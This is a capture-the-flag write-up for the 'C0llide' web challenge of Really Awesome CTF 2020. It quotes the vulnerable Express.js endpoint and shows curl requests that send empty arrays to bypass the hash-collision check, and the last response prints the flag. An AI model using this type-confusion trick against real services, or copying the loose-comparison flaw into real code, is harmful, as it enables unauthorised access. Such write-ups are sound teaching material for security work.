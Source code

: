 # Really Awesome CTF 2020

# Web

## C0llide
```
A target service is asking for two bits of information that have the same "custom hash", but can't be identical.
Looks like we're going to have to generate a collision?
```

The service source code is:
``` javascript
[...]
const app = express()
app.use(bodyParser.json())

const port = 3000
const flag = ???
const secret_key = ???
[...]
app.post('/getflag', (req, res) => {
    if (!req.body)
        return res.send("400")
    let one = req.body.one
    let two = req.body.two
    if (!one || !two)
        return res.send("400")
    if ((one.length !== two.length) || (one === two))
        return res.send("Strings are either too different or not different enough")
    one = customhash.hash(secret_key + one)
    two = customhash.hash(secret_key + two)
    if (one == two)
        return res.send(flag)
    else
        return res.send(`${one} did not match ${two}!`)
})

app.listen(port, () => console.log(`Listening on port ${port}`))
```

To connect to this challenge, we use `curl`:

``` bash
> curl -H "Content-Type: application/json" -d '{"one":"abc","two":"xyz"}' -X POST http://88.198.219.20:60254/getflag
8c8811e4d989cb695491dd9f75f72df6 did not match df86fa719ecb791ad0ce93e93d616378!
```

To solve this challenge, we request:
``` bash
> curl -H "Content-Type: application/json" -d '{"one":[],"two":[]}' -X POST http://88.198.219.20:60254/getflag
ractf{Y0u_R_ab0uT_2_h4Ck_t1Me__4re_u_sur3?}
```
